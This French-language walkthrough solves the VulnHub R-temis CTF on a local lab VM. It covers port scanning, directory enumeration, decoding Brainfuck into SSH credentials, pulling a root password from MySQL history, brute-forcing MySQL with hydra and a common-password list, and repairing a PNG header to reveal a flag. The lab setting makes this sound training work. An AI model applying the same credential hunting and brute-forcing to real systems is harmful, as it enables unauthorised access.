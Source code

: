 ```yaml
---
title: "Solution du CTF R-temis de VulnHub"
tags: [CTF,VulnHub]
---
```


[R-temis](https://vulnhub.com/entry/r-temis-1,649/) est un petit CTF plus orienté Jeopardy qu'intrusion. Il reste assez simple.

Il y a un MySQL accessible, mais on n'en aura finalement pas besoin.

```
Nmap scan report for 192.168.56.210
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
3306/tcp open  mysql   MySQL 5.7.32
7223/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
```

Je lance une première énumération :

```
200       34l      228w     4761c http://192.168.56.210/css/
200       23l      131w     2495c http://192.168.56.210/js/
200       18l       78w     1341c http://192.168.56.210/img/
403        9l       28w      279c http://192.168.56.210/icons/
200       20l       95w     1729c http://192.168.56.210/Image/
403        9l       28w      279c http://192.168.56.210/server-status/
200       29l      105w     1274c http://192.168.56.210/
200       15l       49w      737c http://192.168.56.210/ctf/
```

Le dossier `ctf` est vide. Le dossier `Image` contient quelques images, l'une d'elle ne s'affiche pas correctement.

Sur le site, il y a différents indices, l'un laisse entendre qu'il faut chercher un fichier texte. Je le trouve via une énumération :

```
200        7l       52w      308c http://192.168.56.210/easy.txt
```

On obtient deux lignes de `BrainFuck` :

```
+++++ +++++ [->++ +++++ +++<] >++++ +++++ +++++ .++.< +++[- >---< ]>---
---.+ +++++ ++.-- --.<+ ++[-> +++<] >+.<


+++++ +++++ [->++ +++++ +++<] >++++ +++++ +++++ ++.<+ +++++ +[->- -----
-<]>- --..< +++++ ++[-> +++++ ++<]> +.<++ ++[-> ----< ]>.<+ ++++[ ->---
--<]> ----- ----. <++++ +++[- >++++ +++<] >++.. <
```

J'ai utilisé l'interpréteur de *dcode.fr* : [Brainfuck - Langage - Code - Décoder, Encoder en Ligne](https://www.dcode.fr/langage-brainfuck)

Ça me donne ces identifiants : `rtemis` / `t@@rb@ss`

Ils sont valides sur SSH. Je trouve quelques fichiers dans le dossier personnel :

```console
rtemis@debian:~$ find . -type f -ls
   658466      4 -rw-------   1 rtemis   somu          826 Jan  7  2021 ./.bash_history
   658594      4 -rw-------   1 rtemis   somu         2235 Jan  5  2021 ./.mysql_history
   657558      4 -rw-r--r--   1 rtemis   somu         3526 Dec 31  2020 ./.bashrc
   920440      4 -rw-r--r--   1 rtemis   somu          117 Jan  7  2021 ./.hint/pass.txt
   920439      4 -rw-r--r--   1 rtemis   somu          112 Jan  7  2021 ./.hint/user.txt
   657560      4 -rw-r--r--   1 rtemis   somu          220 Dec 31  2020 ./.bash_logout
   657562      4 -rw-r--r--   1 rtemis   somu          807 Dec 31  2020 ./.profile
rtemis@debian:~$ cat .hint/*
mustang
michael
shadow
master
jennifer
111111
2000
toor
toor123
toor@
jordan
superman
harley
1234567
fuckme
hunter


password
123456
12345678
1234
qwerty
12345
dragon
pussy
baseball
football
letmein
monkey
696969
abc123
somu
raj
```

Pour ce qui est de la seconde liste (utilisateurs) je fais vite le tri, car dans l'historique bash on peut voir cette commande :

```bash
mysql -u somu -p
```

Et dans l'historique MySQL :

```sql
INSERT INTO secret values ('root', 'H@ckMe');
```

On peut s'en servir directement pour récupérer le compte `root` :

```console
rtemis@debian:~$ su 
Password: 
root@debian:/home/somu# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/somu# cd /root
root@debian:~# ls
flag2.txt
root@debian:~# cat flag2.txt 
R777N1k
```

Si l'auteur du CTF avait correctement nettoyé derrière lui on aurait effectué un bruteforce à l'aide des wordlists. Mais comme l'utilisateur fait partie du groupe `somu` ça ne laisse que peu de doutes sur le nom d'utilisateur.

```console
$ hydra -l somu -P pass.txt mysql://192.168.56.210
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-05-19 10:20:13
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 16 login tries (l:1/p:16), ~4 tries per task
[DATA] attacking mysql://192.168.56.210:3306/
[3306][mysql] host: 192.168.56.210   login: somu   password: toor123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-05-19 10:20:14
```

Revenons sur le premier flag, il s'agit de l'image invalide.

On peut voir que l'entête est endommagé, visiblement uniquement les 4 premiers octets :

```console
$ hexdump -C -n 20 flag1.png 
00000000  00 55 49 45 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.UIE........IHDR|
00000010  00 00 02 a0                                       |....|
00000014
$ hexdump -C -n 20 logo.png 
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 00 08 e1                                       |....|
00000014
```

On peut corriger en écrasant avec `dd` :

```console
$ echo -e -n "\x89PNG" | dd of=flag1.png bs=1 conv=notrunc
4+0 enregistrements lus
4+0 enregistrements écrits
4 octets copiés, 7,6401e-05 s, 52,4 kB/s
```

On ouvre l'image qui affiche le flag `1RY_H4RD3R`

